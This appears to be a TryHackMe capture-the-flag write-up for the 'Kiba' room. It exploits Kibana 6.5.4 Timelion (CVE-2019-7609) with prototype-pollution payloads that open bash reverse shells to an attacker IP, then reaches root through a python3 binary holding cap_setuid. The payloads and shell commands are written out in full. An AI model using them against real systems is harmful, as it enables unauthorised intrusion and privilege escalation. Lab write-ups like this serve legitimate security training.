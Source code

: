 ```yaml
---
title: Kiba
description: 'Exploiting Kibana Timelion to get a reverse shell and escalating with cap_setuid in Python'
pubDate: 2023-06-30
category: 'tryhackme'
tags: ['Kibana', 'Timelion', 'cap_setuid+ep']
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/ea4429193c0250f0949cec4234d8037b.png'
---
```


Nmap shows port `5601` is open, this is the default Kibana port and can be accessed in the browser (http://10.10.248.173:5601/app/kibana).

Its version 6.5.4 which is vulnerable to: https://github.com/mpgn/CVE-2019-7609


## USER
```
1. Open Kibana
2. Past one of the following payload into the Timelion visualizer
3. Click run
4. On the left panel click on Canvas
5. Your reverse shell should pop ! :)
```

Payload:
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.8.119.137/4444 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

OR

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/10.8.119.137/4444 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

_Might take some time and going back and forth to the Canvas and Timelion page for the shell to come back_

## ROOT

```bash
kiba@ubuntu:/home/kiba$ getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
...[snip]...
```

This means that `/home/kiba/.hackmeplease/python3` can set the uid to 0 (root).

```python
kiba@ubuntu:/home/kiba/.hackmeplease$ ./python3
Python 3.5.2 (default, Oct  8 2019, 13:06:37)
[GCC 5.4.0 20160609] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system('id')
uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
>>> os.system('bash -c "bash -i >& /dev/tcp/10.8.119.137/4444 0>&1"') # To get a reverse shell
```

